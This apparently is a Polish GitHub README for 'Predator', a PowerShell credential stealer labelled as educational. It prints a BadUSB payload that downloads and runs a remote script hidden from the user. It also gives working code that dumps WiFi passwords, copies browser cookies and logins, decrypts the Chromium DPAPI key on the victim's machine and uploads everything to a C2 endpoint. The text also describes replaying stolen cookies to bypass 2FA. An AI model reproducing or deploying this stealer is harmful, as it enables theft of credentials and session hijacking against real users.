

# Powershell credential stealer - Predator

## Poniższy stealer i całe środowisko zostało przygotowane jedynie w celach edukacyjnych. Nigdy nie zostało wykorzystane do masowych ataków. Żaden człowiek nie ucierpiał :)

### Użyte języki i technologie:

 - Powershell
 - Bash
 - PHP
 - Python
 - Serwer C2 - VPS hostowany przez mikr.us
### Potwierdzone poprawne działanie na systemach Windows 10 oraz 11

### 1. Opis działania extractor.ps1
**Na samym początku należy zaznaczyć, że extractor dokonuje jedynie kradzieży danych oraz odszyfrowania klucza, którym są one zaszyfrowane. Dane te będą odszyfrowane na maszynie atakującego z wykorzystaniem skryptów w języku Python. Ma to na celu jak najszybsze działanie kodu, brak konieczności wykorzystywania interpretera Python'a  oraz dodatkowych bibliotek do powershella u ofiary. 
Kod extractora został napisany tak, by korzystać tylko i wyłącznie z wbudowanych w system modułów i bibliotek.**

Działanie malware rozpoczyna się od zainicjowania droppera poprzez urządzenie typu "BadUSB" (w przypadku autora jest to Flipper Zero). Flipper podszywając się pod klawiaturę wstrzykuje do urządzenia poniższy payload:

    DELAY 3000
    GUI r
    DELAY 500
    STRING powershell -w hidden IEX (New-Object Net.WebClient).DownloadString('https://domena-atakujacego-lub-adres.ip/extractor.ps1')
    DELAY 500
    ENTER
co powoduje pobranie oraz uruchomienie właściwego kodu. 
Na początku działania, malware ustala hostname urządzenia, na którym zostało wywołane i kradnie zapisane sieci WiFi oraz przypisane do nich hasła.
Odpowiada za to poniższa funkcja:

    function Wifi {
    echo "windows:wifi_name" > $env:localappdata\tmp.csv
    netsh wlan show profiles | select-string "All" >> $env:localappdata\tmp.csv
    $wifis=import-csv $env:localappdata\tmp.csv -delimiter ":"
    foreach ($i in $wifis) {
        $cz = $i.wifi_name
        netsh wlan show profile name=$cz key=clear >> $env:localappdata\wifis.txt
    }
    rm $env:localappdata\tmp.csv
    Compress-Archive -Path "$env:localappdata\wifis.txt" -DestinationPath "$env:localappdata\$compname.zip" -Update
    rm $env:localappdata\wifis.txt
    }
Objaśnienie:
Poprzez wbudowane polecenie systemu windows "netsh wlan show profiles" można uzyskać informacje o sieciach, z którymi urządzenie miało połączenie. Tworzony jest tymczasowy plik CSV, który zawiera nazwy i informacje o tych sieciach. Następnie w pętli foreach zostają kolejno pobrane nazwy sieci do zmiennej **$cz** i zostaje wywołane polecenie 

> netsh wlan show profile name=$cz key=clear >> $env:localappdata\wifis.txt

  które powoduje zapisanie informacji o sieci wraz z kluczem w formie plaintext do pliku o nazwie  **wifis.txt**, który następnie jest pakowany do archiwum o nazwie atakowanego hosta.
  W dalszej części działania, malware atakuje kolejno przeglądarki oparte na Chromium oraz Gecko, a są nimi:
  

 - Chrome
 - Brave
 - Edge
 - Opera
 - Firefox

Do każdej przeglądarki napisano funkcje, których działanie wygląda w sposób następujący:

> Poniżej funkcja dla przeglądarki Brave. W Chrome, Operze oraz Edge logika działania jest ta sama, różnią się tylko ścieżki zapisu pożądanych plików.

    function BraveSteal{

    new-item -Path "$env:localappdata" -Name "brave_data" -itemtype directory

    Get-Process "brave" | Stop-Process
    
    $brave_logins = "Default\Login Data"

    $brave_cookies = "Default\Network\Cookies"

    $brave_key = "Local State"

    $brave_history = "Default\History"

    $brave_bookmarks = "Default\Bookmarks"

    $path = $path+"\BraveSoftware\Brave-Browser\User Data\"

    $cipheredkey = "$path$brave_key"

    $jsondata = Get-Content -Raw -Path $cipheredkey | ConvertFrom-Json

    $encKey = [System.Convert]::FromBase64String($jsondata.os_crypt.encrypted_key.ToString());
   
    $encKey= $encKey[5..$encKey.Length];
 
    $decryptedKey = [Security.Cryptography.ProtectedData]::Unprotect($enckey,$null, [Security.Cryptography.DataProtectionScope]::CurrentUser)

    echo "decryptedKey in hex coding (you have to decode it to binary representation in .py decoder):   [$(($decryptedKey|ForEach-Object ToString X2) -join '')]" | Out-File -FilePath "$env:localappdata\brave_data\key.txt"

    copy "$path$brave_cookies" "$env:localappdata\brave_data"

    copy "$path$brave_logins" "$env:localappdata\brave_data"

    copy "$path$brave_key" "$env:localappdata\brave_data"

    copy "$path$brave_history" "$env:localappdata\brave_data"

    copy "$path$brave_bookmarks" "$env:localappdata\brave_data"

    Compress-Archive -Path "$env:localappdata\brave_data" -DestinationPath "$env:localappdata\$compname.zip" -Update

    remove-item -Path "$env:localappdata\brave_data" -Recurse
    }
Na samym początku wywołania funkcji tworzony jest katalog z nazwą "brave_data", do którego będą kopiowane pliki. Następnie malware zabija wszelkie procesy przeglądarki poleceniem:
> Get-Process "brave" | Stop-Process

Zabicie procesów przeglądarki jest konieczne w celu skopiowania baz SQLite z ciastkami, loginami oraz historią przeglądania. Przy uruchomionej przeglądarce pliki te są zablokowane do odczytu co uniemożliwia skopiowanie.
W dalszej części zostały przypisane do zmiennych nazwy plików, które malware chce ukraść (w Chrome i Edge dodano jeszcze drugą lokalizację ciasteczek, ponieważ nie zawsze znajdują się one w %localappdata%\Google\Chrome\User Data\Default\Network\Cookies).

 Później malware pozyskuje klucz, którym zaszyfrowane są dane logowania oraz ciasteczka poniższym fragmentem funkcji:
 

     $cipheredkey = "$path$brave_key"

    $jsondata = Get-Content -Raw -Path $cipheredkey | ConvertFrom-Json

    $encKey = [System.Convert]::FromBase64String($jsondata.os_crypt.encrypted_key.ToString());
   
    $encKey= $encKey[5..$encKey.Length];
 
    $decryptedKey = [Security.Cryptography.ProtectedData]::Unprotect($enckey,$null, [Security.Cryptography.DataProtectionScope]::CurrentUser)

    echo "decryptedKey in hex coding:   [$(($decryptedKey|ForEach-Object ToString X2) -join '')]" | Out-File -FilePath "$env:localappdata\brave_data\key.txt"

Dzieje się to poprzez odczytanie pliku w formacie JSON o nazwie **Local State**, pozyskanie wartości klucza o nazwie **os_crypt.encrypted_key**, następnie odkodowaniu go z base64, odcięciu pierwszych pięciu znaków (NPAPI) i zdeszyfrowaniu go poleceniem **[Security.Cryptography.ProtectedData]::Unprotect(\$enckey,\$null, [Security.Cryptography.DataProtectionScope]::CurrentUser)**

W przeciwieństwie do manualnej próby pozyskania loginów i haseł z przeglądarki, przy użyciu tego polecenia nie jest wymagana żadna interakcja użytkownika - w przeglądarce przy próbie wyświetlenia zapisanych haseł konieczne jest podanie poświadczeń użytkownika. Polecenie te omija również uwierzytelnienie biometryczne (testowano na uwierzytelnieniu przez odcisk palca).
Wynikiem działania jest klucz w formie heksadecymalnej, zapisywany do pliku **key\.txt**

Chromium od wersji 80 domyślnie szyfruje ciastka oraz loginy i hasła kluczem, który również jest zaszyfrowany przez mechanizmy zabezpieczeń systemu Windows i możliwy jest do użycia jedynie poprzez zalogowanego aktualnie użytkownika do systemu Windows. Próba odszyfrowania tego klucza na innej maszynie zakończy się niepowodzeniem - pojawi się komunikat informujący o tym, że podany klucz nie jest możliwy do użycia w tym stanie. Dlatego istotne jest, by deszyfracji klucza dokonać po stronie "klienta", czego przedmiotowy malware dokonuje z powodzeniem.

W dalszej fazie działania, malware kopiuje pliki z ciastkami, loginami, odszyfrowanym kluczem, historią przeglądania, oraz zakładkami do folderu **brave_data** oraz aktualizuje uprzednio utworzone archiwum o nazwie hosta o powyższe dane. 
Następnie wywoływane są funkcje dla innych przeglądarek, które robią dokładnie to samo, co opisane powyżej.
W przypadku Firefox, sprawa jest nieco uproszczona: Firefox domyślnie nie szyfruje ciastek, a zapisane dane logowania możliwe są do odszyfrowania na innej maszynie (szyfrowanie triple-DES). 
Jeśli użytkownik zastosował "Master Password", odszyfrowanie danych nadal jest możliwe, lecz nieco utrudnione, ponieważ trzeba najpierw zdeszyfrować hasło główne (np. atakiem słownikowym, bruteforce, etc.) 

Po zebraniu wszystkich danych, malware wysyła kompletne archiwum na serwer C2 oraz usuwa je z dysku lokalnego, poniższym fragmentem kodu:

    $fil="$env:localappdata\$compname.zip"
    $filu=[System.IO.File]::ReadAllBytes($fil)
    $fileBase64 = [System.Convert]::ToBase64String($filu)
    Invoke-RestMethod -uri "https://domena-atakujacego-lub-adres.ip/up.php" -method post -Headers @{"Content-Type"="application/octet-stream"} -Body $fileBase64
    Remove-Item -Path "$env:localappdata\$compname.zip"
Na tym extractor.ps1 kończy działanie. Dalsza część wykonuje się po stronie serwera, oraz maszyny atakującego.
### 2. Rola serwera C2
Serwer VPS udostępnia extractor.ps1 oraz przyjmuje wykradzione dane za pomocą serwera www apache. Został skonfigurowany tak, aby dostęp do niego był możliwy tylko po SSH, z uwierzytelnieniem za pomocą kluczy (fizyczny klucz Yubikey) na konto nieuprzywilejowane. Przy każdorazowym logowaniu wysyłany jest alert na email atakującego z informacją **whois** o adresie IP, z którego było logowanie.

 Przyjęcie danych realizuje formularz napisany w PHP, który po otrzymaniu requestu POST zmienia nazwę otrzymanego pliku na losową oraz pobiera adres IP ofiary.
Następnie generowane jest 24 znakowe hasło do archiwum, celem zabezpieczenia danych przed nieuprawnionym dostępem. Otrzymany plik ze zmienioną nazwą pakowany jest do zabezpieczonego hasłem archiwum o nazwie IP_ofiary.benc. Jeśli dany plik już istnieje, do nazwy doklejany jest aktualny timestamp. 
W dalszej części działania, serwer usuwa plik w formie jawnej oraz przenosi zaszyfrowany plik do bezpiecznej lokalizacji, wysyła maila do atakującego z hasłem do archiwum, nazwą pliku oraz adresem IP ofiary.

Na tym rola C2 w momencie pisania writeupu kończy się.

### 3. Działanie atakującego.
### a) CHROMIUM
Po otrzymaniu alertu mailowego, atakujący uwierzytelnia się po SSH na serwerze, za pomocą SCP pobiera zaszyfrowane archiwum i wypakowuje je do określonego folderu. By odszyfrować dane z Chromium, należy wykorzystać skrypt napisany w pythonie. Skrypt deszyfruje dowolną bazę danych, można wybrać, dla której przeglądarki ma działać, oraz, co ważne - tworzy nową bazę SQLite, z zaszyfrowanymi kluczem atakującego ciastkami. Jest to o tyle istotne, że żeby uzyskać dostęp do wszystkich witryn, na których była zalogowana ofiara, wystarczy jedynie podmienić plik z ciastkami w %localappdata% - po uruchomieniu przeglądarki, jest możliwe uwierzytelnienie się w serwisach, nawet omijając 2FA. Można też wyłuskać pojedyncze ciasteczka, otwierając plik Cookies_plain w dowolnej przeglądarce baz SQLite.

Działanie skryptu wygląda następująco:

 - Wyświetl opcje wyboru dla użytkownika: Dla której przeglądarki chcesz zdeszyfrować dane? 
 1- Brave, 2- Chrome, 3- Edge, 4- Opera 
 - Zapytaj użytkownika o klucz, którym są zaszyfrowane dane
 - Po uzyskaniu klucza, stwórz kopię bazy ciastek, przystąp do deszyfracji
 - Przystąp do szyfrowania danych tym razem kluczem użytkownika
 - Zapisz w Cookies_stolen 
 - Zapisz jawne ciastka w Cookies_plain
 - Przystąp do deszyfracji loginów i haseł
 - Zapisz zdeszyfrowane loginy i hasła w Logins_stolen

Do jego działania wymagany jest Python, system Windows oraz moduły do pythona: **sqlite3, base64, json, pypiwin32, pycryptodomex**
Po wykonaniu skryptu, atakujący ma dostęp do serwisów, w których ofiara była zalogowana, ponadto posiada zapisane loginy i hasła w przeglądarce. 

### b) Firefox
W przypadku przeglądarki Firefox, można od razu przystąpić do analizy pliku **cookies.sqlite**, ponieważ ciastka są w nim zapisane w formie jawnej. 
Do deszyfrowania haseł, należy użyć skryptu napisanego w Pythonie, znalezionego w serwisie github, ale zmodyfikowanego tak, by umożliwiał deszyfrowanie dowolnych baz z hasłami. 
Do jego działania wymagana jest biblioteka nss3.dll oraz system windows z interpreterem Python wraz z jego modułami: **argparse, csv, ctypes, json, logging, select, sqlite3, base64, getpass, urllib**. 

PoC prezentuje załączony film. Kody źródłowe wszystkich skryptów mogą zostać udostępnione na życzenie. 
